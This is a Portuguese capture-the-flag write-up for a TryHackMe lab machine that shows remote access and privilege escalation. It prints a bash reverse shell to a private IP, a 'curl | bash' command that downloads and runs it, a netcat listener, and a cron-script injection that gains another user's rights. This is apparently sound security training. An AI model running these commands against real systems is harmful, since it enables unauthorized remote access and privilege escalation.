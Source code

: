 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário 'swagger'

### Situação:
- Existe um arquivo chamado `script.sh` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-swagger user-swagger 184 Jun 1 2023 script.sh
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário 'swagger'**, que tem mais privilégios que o usuário atual (`www-data`).

### Problema:
- Estamos logados como `www-data`, um usuário limitado.
- Executar o script manualmente com `www-data` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `www-data`.

### Solução:
1. Editar o `script.sh` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   curl http://192.168.100.168:8000/shell_2.sh | bash
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `swagger`, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do 'swagger' executa o script que você editou**.

![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei previlegio do meu propio usuario e consegui, agora so fazer no arq do usuario swagger
---

### Agora vamos alterar o conteudo do arquivo e colocar para ele buscar naquele mesmo servidor python baixar e execuar o shel reverse enquanto escutamos do outro lado 
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell ,agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que nos alteramos para enviar o cmd shell
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)


- Temos duas shels ativas agora uma do wwwdata que era fraca e nao possuia mt previlegios , e a do swagger que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)
